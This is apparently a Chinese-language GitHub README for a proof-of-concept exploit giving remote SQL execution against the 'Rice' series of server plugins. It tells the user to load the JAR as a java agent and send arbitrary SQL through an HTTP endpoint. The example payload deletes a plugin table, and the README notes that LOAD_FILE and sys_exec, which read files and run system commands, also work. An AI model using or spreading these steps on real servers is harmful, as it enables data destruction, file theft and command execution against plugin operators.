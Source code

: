 # 米饭系列 插件远程SQL执行 漏洞利用
#### 为保护作者权益 本项目 无法直接构建,需使用者请使用 JAR文件。并且 本项目 并不破解米饭验证功能，不验证 任然 无法使用 限制功能。

### 使用方法

1. 将该 JAR 放置到有米饭插件的服务端目录
2. 增加 `-javaagent:Rice-CloudSQL-POC-1.0-SNAPSHOT.jar`<br>
例如: `java -javaagent:Rice-CloudSQL-POC-1.0-SNAPSHOT.jar java.jar`
3. 启动服务端
4. 使用`http://127.0.0.1:8080/api/public/db/fake?sql={自定义SQL字符串}`<br>
例如: `http://127.0.0.1:8080/api/public/db/fake?sql=DELETE /*{对应米饭插件的表(例如: guild_spawn_pvp_location)}*/ FROM guild_spawn_pvp_location`<br>
这里可以是 任何SQL字符串 包括但不限于 `LOAD_FILE` `sys_exec`
5. 等待插件从服务端读取SQL并执行